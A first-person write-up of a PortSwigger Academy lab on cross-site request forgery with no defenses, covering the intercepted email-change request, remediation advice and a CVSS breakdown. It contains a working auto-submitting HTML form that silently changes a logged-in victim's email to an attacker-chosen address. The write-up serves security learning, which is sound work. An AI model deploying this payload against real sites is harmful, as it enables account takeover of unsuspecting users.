

# When the App Left the Door Wide Open: My First CSRF Lab

## How I Stumbled Into This Lab

I was working through the PortSwigger Web Security Academy CSRF section and came across a lab that promised to be the simplest kind of Cross-Site Request Forgery: one with absolutely no defenses. I was curious what that would look like in practice, so I fired up Burp Suite and got started.

The target application had an email change feature, and I had a hunch it might not be properly protected. I logged in with the provided credentials and started poking around.

```text
Username: wiener
Password: peter
```

---

## What I Found

I navigated to the account page and changed my registered email address while intercepting traffic in Burp Suite. Here's what the request looked like:

```http
POST /my-account/change-email HTTP/2

email=test@csrf.com
```

I stared at that request for a moment. No CSRF token. No SameSite cookie restrictions. No Origin validation. No Referer validation. Nothing. The endpoint was just sitting there, accepting state-changing requests without any way to verify they actually came from the legitimate user.

I thought, "This can't really be this easy, can it?" But it was.

---

## How I Exploited It

Since there was no protection at all, I knew I could craft a simple malicious HTML page that would automatically submit a forged request on behalf of any authenticated victim who visited it. I put together a basic payload:

```html
<html>
  <body>
    <form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@evil.com">
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

The JavaScript automatically submits the form as soon as the page loads. The victim doesn't even need to click anything.

---

## Proof of Concept

### The Vulnerable Request

```http
POST /my-account/change-email HTTP/2
Host: TARGET-LAB.web-security-academy.net
Cookie: session=<victim-session>

email=hacked@evil.com
```

### My CSRF Exploit

```html
<form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="hacked@evil.com">
</form>

<script>
document.forms[0].submit();
</script>
```

### What Happened

The victim's email address was modified without their knowledge or consent. The browser happily included the session cookie, and the server accepted the request without question.

---

## Screenshots

### Screenshot 1 – CSRF Proof of Concept

**What I saw:**

A malicious HTML form created to automatically submit a forged request to the email change endpoint. The exploit contains a hidden email parameter and an auto-submit script.



---

### Screenshot 2 – Email Successfully Modified

**What I saw:**

After visiting the exploit page, the email address associated with the authenticated account was changed to the value I controlled.


---

### Screenshot 3 – Lab Successfully Solved

**What I saw:**

PortSwigger confirmed successful exploitation of the CSRF vulnerability.


---

## What This Means

This vulnerability opens the door to some serious consequences:

* Unauthorized modification of user account settings.
* Account takeover opportunities through email address changes.
* Execution of privileged actions on behalf of victims.
* Loss of user trust and account integrity.
* Potential escalation to complete account compromise.

---

## How to Fix It

If I were defending this application, here's what I would do:

1. Implement anti-CSRF tokens for all state-changing requests.
2. Validate CSRF tokens on the server side.
3. Use SameSite cookie attributes:

```http
Set-Cookie: session=xyz; SameSite=Strict
```

4. Validate Origin and Referer headers.
5. Require re-authentication for sensitive account changes.
6. Implement additional verification mechanisms for email changes.

---

## CVSS Score

**CVSS v3.1 Score:** 8.8 (High)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N
```

---

## CVSS Justification

### Attack Vector

Network (N) – Exploitable remotely through a malicious website.

### Attack Complexity

Low (L) – Requires only a crafted HTML form.

### Privileges Required

None (N) – No attacker account is required.

### User Interaction

Required (R) – The victim must visit the malicious page.

### Scope

Unchanged (U) – Impact remains within the application boundary.

### Confidentiality Impact

High (H) – Attackers may gain control of account recovery mechanisms.

### Integrity Impact

High (H) – User account information is modified without authorization.

### Availability Impact

None (N) – Service functionality remains available.

---

## References

* OWASP Cross-Site Request Forgery Prevention Cheat Sheet
* OWASP Top 10 – Broken Access Control
* PortSwigger Web Security Academy – CSRF Vulnerability with No Defenses
